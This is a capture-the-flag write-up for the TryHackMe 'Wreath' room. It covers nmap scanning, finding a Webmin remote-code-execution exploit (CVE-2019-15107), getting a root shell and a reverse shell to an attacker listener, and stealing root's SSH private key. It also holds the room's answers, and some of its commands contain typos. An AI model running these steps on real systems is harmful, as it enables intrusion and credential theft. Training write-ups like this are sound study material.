 # TryHackMe - Wreath

[Room link](https://tryhackme.com/room/wreath)

--- 

 ## Task 1 - 4
  
**Just read, understand contents and complete**

--- 

## Task 5

Enumeration 

```bash
$ sudo nmap -sS -p0-14999 -oN nmap-0-to-14999.txt <target_ip>
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
10000/tcp open  snet-sensor-mgmt

$ sudo nmap -sS -F -O -oN nmap-os.txt <target_ip>
[...]
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).

# Check OS (aggressive scan)
$ sudo nmap -sS -A nmap-os.txt <target_ip>
[...]
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)

# Check server web redirection
$ curl http://<target_ip>/                                                                          
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thm">here</a>.</p>
</body></html>

# Update /etc/hosts
$ echo "<target_ip> thomaswreath.thm" | sudo tee -a /etc/hosts 

# Reload the webpage. Check Thomas' mobile phone number
$ curl --insecure https://thomaswreath.thm/ | grep '[0-9]\{3\}[ -]\?[0-9]\{3\}[ -]\?[0-9]\{4\}'

# Find highest open port version
$ sudo nmap -sV -p10000 <target_ip>

# Check CVE exploit about MiniServ
$ searchsploit -w webmin 1.890
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                                                                      |  URL
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)                                                                       | https://www.exploit-db.com/exploits/47330
------------------------------------------------------------------------------------------------------------------------------------ --------------------------------------------
$ curl https://www.exploit-db.com/exploits/47330 | grep -i CVE
```

1. How many of the first 15000 ports are open on the target?

**4**

2. What OS does Nmap think is running?

**CentOS**

3. Open the IP in your browser -- what site does the server try to redirect you to?

**https://thomaswreath.thm/**

4. You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

**Update /etc/hosts**

5. Read through the text on the page. What is Thomas' mobile phone number?

**447821548812**

6. Look back at your service scan results: what server version does Nmap detect as running here?

**MiniServ 1.890 (Webmin httpd)**

7. What is the CVE number for this exploit?

**CVE-2019-15107**

---

## Task 6

```bash
# After do instructions run exploit
$ $ ./CVE-2019-15107.py <target_ip>
[...]
$ whoami
root

# Shell stabilization (on exploit pseudoshell)
$ shell 
[*] Starting the reverse shell process
[*] For UNIX targets only!
[*] Use 'exit' to return to the pseudoshell at any time
Please enter the IP address for the shell: <attacker_ip>
Please enter the port number for the shell: <port_listener>

[*] Start a netcat listener in a new window (nc -lvnp 12345) then press enter.

# On the nc listener
sh-4.4# 

# Check root's hash
sh-4.4# cat/etc/passwd

# Copy content of /root/.ssh/id_rsa
sh-4.4# cat /etc/.ssh/id_rsa #Copy the content
[...]
# On the attacker machine
$ echo "<id_rsa_content>" > id_rsa_wreath
$ chmod 600 id_rsa_wreath

# Connect us to the target machine
$ ssh -i id_rsa_wreath root@<target_ip>
$ whoami
root
```

1. Run the exploit and obtain a pseudoshell on the target!

**Just execut the python exploit**

2. Which user was the server running as?

**root**

3. What is the root user's password hash?

**Check content of /etc/passwd**

4. What is the full path to this file?

**/root/.ssh/id_rsa**
